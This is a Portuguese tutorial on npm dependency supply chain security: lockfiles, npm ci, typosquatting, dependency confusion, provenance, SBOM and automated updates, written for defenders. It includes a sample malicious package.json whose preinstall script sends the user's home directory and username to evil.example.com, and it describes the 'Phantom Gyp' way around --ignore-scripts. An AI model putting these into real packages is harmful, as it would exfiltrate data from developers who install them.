






# Supply chain e segurança de dependências

> [!abstract] TL;DR
> Quando você roda `npm install`, você não está apenas baixando código — você está concedendo permissão de execução a dezenas de mantenedores que você nunca conheceu, em máquinas onde você tem credenciais salvas. A supply chain de dependências é uma superfície de ataque massiva: typosquatting, dependency confusion, pacotes sequestrados via conta comprometida, e postinstall scripts que exfiltram dados antes mesmo do seu código rodar. As defesas combinam: lockfiles com hashes SHA-512 e installs imutáveis (`npm ci`), `npm audit` + Socket.dev em CI, npm provenance + SLSA para verificar origem de build, `--ignore-scripts` para minimizar execução arbitrária (padrão a partir do npm v12, julho 2026), SBOM para inventário e compliance, e Dependabot/Renovate para manter deps atualizadas sem mergulho manual. Não existe bala de prata; a segurança de supply chain é defesa em profundidade.

---

## O problema que você não vê até ser tarde demais

Imagine que você está revisando um pull request tranquilo — um upgrade de cinco linhas no `package.json`. Um colega atualizou `lodash` de 4.17.20 para 4.17.21. O PR passa em CI, você aprova, e vai almoçar.

O que você não percebeu é que, nessa versão, um postinstall script silencioso lê o arquivo `~/.aws/credentials` e faz um POST para um servidor externo antes mesmo do seu código iniciar.

Esse cenário não é ficção científica. É uma variante fiel do que aconteceu com o pacote `event-stream` em 2018, com o `ua-parser-js` em 2021, e com os ataques "Mini Shai-Hulud" em 2025 e 2026. A supply chain de software é o conjunto de todas as dependências, ferramentas de build, sistemas de CI e repositórios que participam da criação e distribuição do seu produto — e atacar qualquer ponto nessa cadeia pode comprometer todos os consumidores downstream.

O paradoxo central é este: o modelo de confiança do npm é por padrão **transitivo e implícito**. Quando você `npm install` um pacote com 5 dependências diretas, você está instalando silenciosamente tudo o que essas 5 dependências dependem — frequentemente 200 a 800 pacotes. Você confiou explicitamente em 5. Você executou código de 800.



A pergunta não é "meu projeto direto é seguro?" É "algum dos 800 pacotes que eu instalei indiretamente foi comprometido?"

---

## O lockfile como primeira linha de defesa

Antes de falar de ataques sofisticados, a defesa mais simples e mais frequentemente ignorada é usar o lockfile corretamente.

O `package-lock.json` (npm), `yarn.lock` (Yarn) e `pnpm-lock.yaml` (pnpm) fazem mais do que fixar versões. Cada entrada contém um campo `integrity` com um hash SHA-512 da tarball exata que foi baixada:

```json
// package-lock.json — trecho comentado
{
  "name": "meu-projeto",
  "lockfileVersion": 3,
  "requires": true,
  "packages": {
    "node_modules/express": {
      "version": "4.21.2",
      "resolved": "https://registry.npmjs.org/express/-/express-4.21.2.tgz",
      // ↓ Hash SHA-512 da tarball. Se o conteúdo mudar, o hash muda.
      "integrity": "sha512-ALjnFdJ3trkBiPHNv0IxFPYJ+nYMmMm6oJWq7ARkdxWw2vFsXtHpZjixF21Ht0F6UTLspJ5uWNq1oXmkQOng==",
      "dependencies": {
        "accepts": "^1.3.8"
      }
    }
  }
}
```

O hash SHA-512 é calculado sobre o conteúdo binário da tarball. Se um atacante conseguir substituir o conteúdo de `express@4.21.2` no registry após a publicação, o hash muda — e o npm detecta a divergência na próxima instalação.

> [!question]- Então o lockfile me protege completamente?
> Quase. O lockfile com integridade protege contra *adulteração pós-publicação*. O que ele não protege é contra *publicação maliciosa original*: se o atacante já controla a conta do mantenedor, ele publica `express@4.21.3` com código malicioso, o hash SHA-512 é calculado sobre esse conteúdo malicioso e registrado corretamente. O lockfile depois verifica esse hash com sucesso — porque é o hash *correto* do conteúdo malicioso.

### Installs imutáveis: `npm ci` vs `npm install`

```bash
# npm install — permissivo
# Se package-lock.json não existe, cria um.
# Se existe, pode atualizar versões dentro dos ranges permitidos.
# Usado em desenvolvimento local para flexibilidade.
npm install

# npm ci — rigoroso (Continuous Integration)
# Exige package-lock.json — falha se não existe.
# Se package.json e package-lock.json divergem em nome/versão, FALHA.
# Nunca atualiza o lockfile — usa exatamente o que está registrado.
# Apaga node_modules antes de instalar (garante estado limpo).
# Use SEMPRE em CI/CD.
npm ci

# Equivalentes em outros package managers
yarn install --immutable          # Yarn Berry
pnpm install --frozen-lockfile    # pnpm
bun install --frozen-lockfile     # Bun
```

A distinção é crítica em CI: `npm install` pode silenciosamente atualizar uma dependência transitiva para uma versão comprometida que acabou de ser publicada. `npm ci` instala *exatamente* o que está no lockfile — nem mais, nem menos.

> [!warning] Lockfile fora do git
> Um erro surpreendentemente comum: adicionar `package-lock.json` ao `.gitignore`. Isso faz com que cada desenvolvedor e cada pipeline de CI reconstrua o lockfile do zero, resolvendo as versões mais recentes disponíveis — o oposto de determinismo. O lockfile **deve** estar no git para projetos de aplicação.

---

## Os vetores de ataque: como a supply chain é comprometida

### 1. Typosquatting — o pacote que quase tem o nome certo

Typosquatting é publicar um pacote com nome propositalmente similar ao de um pacote popular, esperando que alguém cometa um erro de digitação.



A defesa mais direta é revisão humana ao adicionar uma nova dependência (`npm install <nome>` — confirme o nome antes de pressionar Enter). Ferramentas como Socket.dev e Snyk fazem análise automática de nomes suspeitos.

### 2. Dependency Confusion — explorar a resolução de registros

Em fevereiro de 2021, o pesquisador Alex Birsan publicou um artigo que gerou pagamentos de bug bounty superiores a US$ 130.000 de empresas como Microsoft, Apple, Uber, Tesla e outras 30+. O ataque, que ele chamou de *dependency confusion*, explorou uma falha arquitetural nos package managers.

O cenário: muitas empresas usam um registry interno privado para pacotes internos (ex: `minha-empresa/utils-internos`). O npm, por padrão, busca pacotes primeiro no registry público (npmjs.com), depois no privado — ou usa proxies que mesclam ambos.

O ataque funciona assim:



A defesa é fixar o escopo do pacote privado usando `.npmrc` com `@escopo:registry` apontando para o registry interno, e nunca usar nomes de pacotes internos sem escopo (@):

```bash
# .npmrc — fixar resolução de pacotes com escopo
@minha-empresa:registry=https://registry.minha-empresa.com
# Qualquer @minha-empresa/* sempre vai para o registry privado
# Nunca pode ser "confundido" com o npm público
```

```json
// package.json — use sempre @escopo para pacotes internos
{
  "dependencies": {
    "@minha-empresa/utils-internos": "^1.2.0"  // ✓ com escopo
    // "utils-internos": "^1.2.0"               // ✗ sem escopo — vulnerável
  }
}
```

### 3. Pacotes sequestrados — conta de mantenedor comprometida

Em outubro de 2021, o pacote `ua-parser-js` — com mais de 8 milhões de downloads semanais — teve três versões maliciosas publicadas em menos de uma semana. O atacante comprometeu a conta do mantenedor e publicou `0.7.29`, `0.8.0` e `1.0.0` com um script que instalava um cryptominer e um trojan.

Em setembro de 2025, o ataque escalou para um novo patamar: atacantes comprometeram a conta de um mantenedor e publicaram 84 versões maliciosas de 42 pacotes TanStack em menos de seis minutos — todos com provenance SLSA Build Level 3 válido da Sigstore.

> [!danger] O ataque mais difícil de detectar
> Quando um atacante usa a conta legítima do mantenedor, o npm recebe um package com assinatura válida, hash correto, e até provenance de CI verificado. O `npm ci` instala sem reclamar. O `npm audit` não encontra nada. É malicioso por definição, não por comportamento conhecido.

A defesa aqui é a camada de análise comportamental — ferramentas como Socket.dev que analisam o código do pacote antes de você instalar:

```bash
# Socket.dev CLI — análise antes de instalar
socket npm install react

# Resposta: analisa o código de cada dep, não só metadados.
# Detecta: novo postinstall script que não existia na versão anterior,
# chamadas de rede inesperadas, leitura de ~/.ssh ou env vars,
# obfuscação de código.
```

### 4. Postinstall scripts — execução arbitrária em `npm install`

O vetor mais direto de ataque: npm suporta lifecycle scripts que executam automaticamente durante a instalação de qualquer pacote.

```json
// package.json de um pacote malicioso (simplificado)
{
  "name": "pacote-aparentemente-util",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "node -e \"require('https').get('https://evil.example.com/?' + Buffer.from(JSON.stringify({home: require('os').homedir(), user: require('os').userInfo().username})).toString('base64'))\"",
    "postinstall": "node scripts/setup.js"
    // scripts/setup.js pode fazer QUALQUER coisa: ler .env, ssh keys, tokens de git...
  }
}
```

Quando você executa `npm install`, **todos** os lifecycle scripts de **todos** os pacotes instalados executam com as suas permissões de usuário. Não existe sandbox. Não existe prompt de confirmação.

**A mudança histórica do npm v12 (julho 2026):** a partir do npm v12, install scripts são **desabilitados por padrão**. Pacotes que precisam de scripts devem ser explicitamente aprovados via `npm approve-scripts`. Isso é o fim de uma era de execução implícita que durou décadas.

```bash
# Antes do npm v12 — proteção manual
# .npmrc ou npm config
npm config set ignore-scripts true
# Equivalente: adicionar ao .npmrc do projeto:
# ignore-scripts=true

# A partir do npm v12 — padrão seguro
# Scripts só executam se explicitamente aprovados:
npm approve-scripts   # lista scripts pendentes de aprovação
npm install           # agora não executa scripts por padrão

# Para pacotes que precisam de scripts (ex: pacotes com native addons):
npm install --allow-scripts=esbuild  # aprova para um pacote específico
```

> [!warning] Phantom Gyp — o bypass do `--ignore-scripts`
> Existe uma técnica chamada "Phantom Gyp": colocar um arquivo `binding.gyp` vazio de 157 bytes dentro do pacote. Isso faz o npm disparar automaticamente o `node-gyp rebuild` para tentar compilar código nativo — mesmo com `--ignore-scripts` ativo. É um ponto cego até o npm v12, que bloqueou essa chamada implícita.

---

## npm audit: o que ele faz e o que não faz

```bash
# Roda uma auditoria de segurança contra o banco de dados Advisory do npm
npm audit

# Saída de exemplo (comentada):
# found 3 vulnerabilities (1 moderate, 2 high)
#
# moderate  severity  Prototype Pollution in lodash
# Package:            lodash
# Patched in:         >=4.17.21
# Dependency of:      meu-app > lodash
# Path:               meu-app > lodash
# More info:          https://npmjs.com/advisories/...
#
# high      severity  Regular Expression Denial of Service in semver
# Package:            semver
# Patched in:         >=5.7.2 or >=6.3.1 or >=7.5.2
# Dependency of:      meu-app > husky > semver    ← TRANSITIVA
# Path:               meu-app > husky > semver
# More info:          https://npmjs.com/advisories/...

# Fix automático — atualiza dentro dos ranges do package.json
npm audit fix

# Fix forçado — pode atualizar major versions (breaking changes!)
npm audit fix --force   # use com cuidado, revise o diff

# Só mostra vulnerabilidades de produção (ignora devDependencies)
npm audit --omit=dev

# Saída em JSON para processar em CI
npm audit --json

# pnpm e yarn equivalentes
pnpm audit
yarn npm audit
```

O `npm audit` faz uma coisa específica: compara as versões de cada dependência no seu `package-lock.json` contra o banco de dados de vulnerabilidades conhecidas do npm (baseado em CVEs + relatórios da comunidade). Ele é rápido, está embutido, e cobre o caso mais comum.

O que ele **não faz**:
- Não detecta pacotes maliciosos recém-publicados (que ainda não têm CVE)
- Não analisa o comportamento do código — só a versão
- Não detecta typosquatting
- Não detecta dependency confusion
- Não avisa sobre pacotes abandonados ou sem mantenedor ativo

Para cobertura mais ampla, Socket.dev e Snyk fazem análise comportamental em tempo real.

```bash
# Socket.dev — análise de comportamento além de CVEs
npx socket scan              # escaneia o projeto atual
npx socket npm install <pkg> # analisa antes de instalar

# Snyk
npx snyk test                # CVEs + análise de código
npx snyk monitor             # registra o projeto para alertas contínuos
```

---

## npm Provenance: de onde veio esse pacote?

O campo `integrity` no lockfile garante que você tem *a tarball correta*. Mas não diz de onde ela veio nem quem a construiu. Isso é o que o **npm provenance** resolve.

Disponível desde outubro de 2023 (GA), o npm provenance conecta criptograficamente um pacote publicado ao commit exato de source code e ao pipeline de CI que o produziu.



Para publicar com provenance (exige GitHub Actions ou GitLab CI):

```yaml
# .github/workflows/publish.yml
name: Publish package
on:
  push:
    tags: ['v*']
jobs:
  publish:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      id-token: write   # ← necessário para Sigstore/OIDC
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with:
          node-version: '22'
          registry-url: 'https://registry.npmjs.org'
      - run: npm ci
      - run: npm publish --provenance --access public
        env:
          NODE_AUTH_TOKEN: ${{ secrets.NPM_TOKEN }}
```

Para verificar a provenance de um pacote instalado:

```bash
# Verifica assinaturas E provenance de todas as deps
npm audit signatures

# Saída esperada para pacotes com provenance:
# audited 247 packages
# verified registry signatures
# verified provenance for 89 packages
# 2 packages have no provenance data

# Verificar provenance de um pacote específico no npmjs.com
# Acesse: https://www.npmjs.com/package/react — aba "Security"
# Mostra: commit, workflow, repositório — rastreável até a linha de código
```

### SLSA: framework além do npm

O SLSA (Supply-chain Levels for Software Artifacts, pronunciado "salsa") é um framework criado pelo Google e adotado pela OpenSSF que define quatro níveis de garantia de provenance:

| Nível SLSA | O que garante | npm provenance |
|---|---|---|
| **Build L1** | Provenance existe e é assinada | Satisfeito |
| **Build L2** | Build em serviço hospedado (CI), assinatura verificável | Satisfeito |
| **Build L3** | Ambiente de build hardened, deps de build verificadas | Satisfeito para GitHub Actions |
| **Build L4** | Two-party review, hermetic build | Não coberto ainda |

> [!warning] Provenance não é garantia de código limpo
> Como demonstrado pelo ataque Mini Shai-Hulud em 2026 — onde 84 versões maliciosas foram publicadas com SLSA Build Level 3 válido — provenance diz *qual pipeline produziu o artefato*, não *se esse pipeline estava comprometido ou controlado por um atacante*. SLSA L3 + conta de mantenedor comprometida = provenance maliciosa assinada corretamente. É defesa em profundidade, não bala de prata.

---

## SBOM: o inventário do que está dentro

SBOM (Software Bill of Materials) é uma lista estruturada de todos os componentes de software de um produto — equivalente a uma lista de ingredientes de um alimento industrializado, mas para código.

O npm tem suporte nativo desde v8:

```bash
# Gera SBOM do projeto atual em formato CycloneDX (recomendado)
npm sbom --sbom-format cyclonedx

# Gera em formato SPDX
npm sbom --sbom-format spdx

# Salva para arquivo
npm sbom --sbom-format cyclonedx > sbom.cdx.json

# Escopo: só produção (exclui devDeps)
npm sbom --sbom-format cyclonedx --omit=dev
```

```json
// sbom.cdx.json — estrutura simplificada de um CycloneDX
{
  "bomFormat": "CycloneDX",
  "specVersion": "1.5",
  "metadata": {
    "timestamp": "2026-06-24T00:00:00Z",
    "component": {
      "name": "meu-app",
      "version": "1.0.0",
      "type": "application"
    }
  },
  "components": [
    {
      "type": "library",
      "name": "express",
      "version": "4.21.2",
      "purl": "pkg:npm/express@4.21.2",
      "hashes": [
        { "alg": "SHA-512", "content": "sha512-ALjn..." }
      ],
      "licenses": [{ "license": { "id": "MIT" } }]
    }
    // ... centenas de entradas
  ]
}
```

O SBOM responde perguntas que `npm audit` não consegue: "Tenho algum componente com licença GPL que não deveria estar no produto?" "Quais versões de OpenSSL transitivas estou carregando quando o NIST publicar uma nova vulnerabilidade?" "Consigo provar para um auditor o que exatamente estava no artefato que deployamos em produção?"

---

## Dependabot e Renovate: atualizações automatizadas com controle

Manter dependências atualizadas não é apenas conforto — é segurança. A maioria dos pacotes comprometidos por vulnerabilidade tinha versão corrigida disponível há semanas antes do ataque se tornar público.



**Dependabot** (nativo no GitHub, zero config):

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: "npm"
    directory: "/"
    schedule:
      interval: "weekly"       # uma varredura por semana
    open-pull-requests-limit: 10
    groups:
      devDependencies:
        dependency-type: "development"  # agrupa devDeps em um único PR
```

**Renovate** (mais configurável, suporta 60+ ecosystems):

```json
// renovate.json
{
  "$schema": "https://docs.renovatebot.com/renovate-schema.json",
  "extends": ["config:recommended"],
  "packageRules": [
    {
      // Auto-merge patches sem revisão manual
      "matchUpdateTypes": ["patch"],
      "automerge": true
    },
    {
      // Agrupa todas as updates de ESLint em um PR
      "matchPackageNames": ["eslint", "/^@eslint/", "/^eslint-/"],
      "groupName": "ESLint"
    }
  ],
  "vulnerabilityAlerts": {
    "enabled": true,
    "labels": ["security"]   // abre PR com label, não espera schedule
  }
}
```

A diferença prática: Dependabot é mais simples, perfeito para projetos GitHub sem necessidade de customização. Renovate é mais poderoso — agrupa PRs para reduzir ruído, suporta auto-merge por tipo de update, e funciona em GitLab, Bitbucket e auto-hosted.

---

## Minimizar superfície: a melhor dependência é a que não existe

Toda dependência que você adiciona é uma superfície de ataque. Antes de `npm install <pacote>`:



Ferramentas práticas para avaliar antes de instalar:

```bash
# Quantas dependências transitivas um pacote carrega?
npx cost-of-modules <pacote>

# Alternativa: bundlephobia (browser)
# https://bundlephobia.com/package/moment

# Socket.dev CLI — análise de risco antes de instalar
npx socket npm install <pacote>
# Mostra: score de segurança, mantenedores, novo comportamento vs versão anterior

# npm-check-updates — vê o que está desatualizado
npx npm-check-updates
```

Alguns casos onde a stdlib do Node elimina deps por completo:

| Pacote externo | Alternativa nativa (Node 18+) |
|---|---|
| `node-fetch`, `axios` | `fetch` (global nativo desde Node 18) |
| `uuid` | `crypto.randomUUID()` |
| `rimraf` | `fs.rm(path, { recursive: true })` |
| `mkdirp` | `fs.mkdir(path, { recursive: true })` |
| `dotenv` (parcial) | `node --env-file=.env` (Node 20.6+) |
| `glob` | `fs.glob()` (Node 22+) |

---

## Ataques históricos que moldam as práticas de hoje

Entender os ataques históricos ajuda a compreender por que cada prática de segurança existe.

**event-stream (2018)** — O maintainer do pacote `event-stream` (2 milhões de downloads/semana) transferiu a ownership para um stranger que pediu ajuda para "manter" o projeto. O novo "mantenedor" adicionou uma dependência maliciosa que visava especificamente carteiras de Bitcoin da Copay. A dependência ficou ativa por dois meses antes de ser detectada. *Lição: a ownership de pacotes populares é um ativo de alto valor para atacantes.*

**ua-parser-js (2021)** — Um atacante comprometeu a conta npm do mantenedor via credential stuffing (usar senhas vazadas de outros serviços). Publicou três versões maliciosas que instalavam um cryptominer (em Linux) e um trojan (em Windows) via postinstall. Durou menos de 4 horas antes de ser detectado, mas já havia sido instalado por pipelines de CI ao redor do mundo. *Lição: MFA em contas npm é obrigatório para qualquer mantenedor.*

**xz Utils (2024)** — Não é npm, mas é a referência em supply chain de software compilado. Um contribuidor passou *dois anos* construindo reputação em um projeto open source de compressão (`xz`) antes de introduzir uma backdoor sofisticada no processo de build que afetaria OpenSSH em distribuições Linux. Detectado por acidente por um engenheiro da Microsoft que notou que o SSH estava 500ms mais lento. *Lição: ataques de supply chain são pacientes; confiança conquistada ao longo do tempo pode ser subvertida.*

**Mini Shai-Hulud (2025-2026)** — Série de ataques de worm auto-replicante onde atacantes do grupo TeamPCP comprometeram contas de mantenedores e usaram os pipelines de CI legítimos para publicar código malicioso *com provenance SLSA Build Level 3 válido*. Em um episódio, 84 versões de 42 pacotes TanStack foram publicadas em menos de 6 minutos. *Lição: provenance não é suficiente quando a conta que controla o pipeline está comprometida.*

> [!danger] O padrão que conecta todos
> Em todos os ataques acima, o vetor foi **confiança implícita**: confiança no mantenedor original (event-stream), na conta autenticada (ua-parser-js, xz), na provenance gerada por CI legítimo (Mini Shai-Hulud). A defesa efetiva é reduzir essa confiança implícita com múltiplas camadas de verificação independentes.

---

## Checklist de defesa em profundidade

Não existe uma única medida que resolve tudo. A segurança de supply chain é a composição de múltiplas camadas:

```markdown
## Checklist: supply chain security para projetos Node/npm

### Lockfile e installs
- [ ] package-lock.json está no git (nunca no .gitignore)
- [ ] CI/CD usa `npm ci`, não `npm install`
- [ ] Lockfile tem todos os campos `integrity` (SHA-512)

### Scripts de instalação
- [ ] `ignore-scripts=true` no `.npmrc` (até npm v12; padrão a partir dele)
- [ ] Pacotes que precisam de scripts têm justificativa documentada
- [ ] npm v12+ em uso com `npm approve-scripts` para whitelist

### Auditoria e análise
- [ ] `npm audit` roda em CI (falha o build em severidade high+)
- [ ] Socket.dev ou Snyk monitora comportamento de pacotes, não só CVEs
- [ ] `npm audit signatures` valida assinaturas do registry

### Provenance
- [ ] Pacotes publicados pela sua equipe usam `--provenance`
- [ ] GitHub Actions com `id-token: write` para Sigstore
- [ ] Verificação de provenance em deps críticas

### SBOM
- [ ] `npm sbom --sbom-format cyclonedx` gerado em cada release
- [ ] SBOM salvo como artifact do build no CI
- [ ] SBOM consultado quando novas vulnerabilidades emergem

### Atualizações automáticas
- [ ] Dependabot ou Renovate configurado no repositório
- [ ] Auto-merge de patches após CI verde (opcional, mas reduz ruído)
- [ ] `vulnerabilityAlerts: true` no Renovate

### Minimizar superfície
- [ ] Cada nova dep tem justificativa (PR ou ADR)
- [ ] Stdlib do Node usada quando possível (fetch, uuid, fs.rm)
- [ ] Dependências transitivas revisadas para pacotes críticos

### Contas e credenciais
- [ ] MFA ativado em todas as contas npm de mantenedores
- [ ] NPM_TOKEN em CI com escopo mínimo (publish only)
- [ ] Tokens de CI rotacionados periodicamente
```

---

## Armadilhas comuns

> [!warning] Armadilha 1: confundir `npm install` com `npm ci` em CI
> O `npm install` em CI é silenciosamente perigoso: ele pode resolver novas versões que não estão no lockfile e sequer falha se o lockfile divergir. Todo pipeline de CI deve usar `npm ci` — é mais rápido (porque apaga e recria node_modules) e mais seguro (nunca diverge do lockfile).

> [!warning] Armadilha 2: `.npmrc` com `ignore-scripts=true` mas npm antigo
> Com npm v11 e anteriores, `--ignore-scripts` não protege contra "Phantom Gyp" (o arquivo `binding.gyp` que dispara `node-gyp rebuild` implicitamente). O fix completo chegou com npm v12 (julho 2026). Se você está em npm ≤ 11, considere adicionar proteção complementar via Socket.dev ou Snyk para detectar pacotes que usam essa técnica.

> [!warning] Armadilha 3: tratar `npm audit` como suficiente
> O `npm audit` só detecta CVEs conhecidos e publicados no banco do npm. Pacotes maliciosos recém-publicados (typosquatting, conta comprometida, código novo) não têm CVE ainda — passam limpos no `npm audit`. Use Socket.dev ou Snyk em paralelo para análise comportamental.

> [!warning] Armadilha 4: assumir que provenance = seguro
> Como demonstrado pelo Mini Shai-Hulud (2026), um pacote pode ter provenance SLSA Build Level 3 válido e ainda assim ser malicioso, se o pipeline de CI que gerou o artefato estava sob controle do atacante. Provenance é uma camada importante, mas não é suficiente sozinho.

> [!warning] Armadilha 5: pacotes internos sem escopo (`@`)
> `minha-empresa/utils-internos` sem o `@` de escopo é vulnerável a dependency confusion. Qualquer nome sem escopo pode ser registrado no npm público. Packages internos **sempre** devem usar `@escopo/nome` — e o `.npmrc` deve fixar a resolução desse escopo para o registry privado.

> [!warning] Armadilha 6: não auditar devDependencies
> `npm audit --omit=dev` é adequado para avaliar risco em produção, mas postinstall scripts de devDeps executam na máquina do desenvolvedor e no CI. Um cryptominer em uma devDep é menos crítico que em produção, mas ainda é um incidente de segurança.

---

## Como explicar em inglês

Software supply chain security is about defending the entire chain between source code and running software: your dependencies, their dependencies, the build pipeline, the package registry, and the tools that assemble everything. The threat surface is massive because you trust hundreds of maintainers implicitly when you run `npm install`.

Key attack vectors to know for an interview:

**Typosquatting** is publishing a package with a name close to a popular one (e.g. `lodahs` instead of `lodash`) hoping developers mistype. Defense: review package names carefully before installing; use Socket.dev to flag suspicious names.

**Dependency confusion** (Alex Birsan, 2021) exploits npm's registry resolution: if your company has a private package named `utils-internos` and an attacker publishes a higher version of that name to the public registry, package managers may prefer the public one. Defense: always scope internal packages (`@company/utils-internos`) and pin the scope to the private registry in `.npmrc`.

